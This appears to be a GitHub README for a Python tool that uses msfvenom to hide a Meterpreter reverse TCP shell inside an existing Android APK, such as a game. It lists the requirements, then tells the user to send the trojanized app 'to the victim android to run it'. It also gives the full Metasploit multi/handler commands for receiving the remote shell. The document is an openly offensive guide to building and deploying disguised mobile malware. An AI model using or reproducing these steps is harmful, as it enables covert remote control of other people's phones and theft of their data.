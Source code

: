 ## Android apk and payload combiner
# A small python script that uses msfvenom to hide a tcp reverse shell to an android device inside an APK file

Hide an msfconsole reverse tcp shell payload in an existing apk application, made by Stephanos Bekiaris    ver: July 2020
        
    
# Requirements:
  1. msfvenom: for generating the payload
  2. msfconsole (Metasploit): for starting the meterpreter session
  3. An apk file to place the payload in, e.g. an android game (search for Flappy Bird android apk)
  4. Make sure you have zipalign installed (apt install zipalign)
  
  
**Step 1: Run the script (preferably as root): sudo python3 android_payload_generator.py**

**Step 2: Once the payload is generated, send it to the victim android to run it.**

**Step 3: Make sure you have initialized an msfconsole session using the following commands:**

	                  msfconsole
                      use exploit/multi/handler
	                  set payload android/meterpreter/reverse_tcp
	                  set LHOST {same ip as the one used for the script}
	                  set LPORT {same port as the one used for the script}
	                  exploit
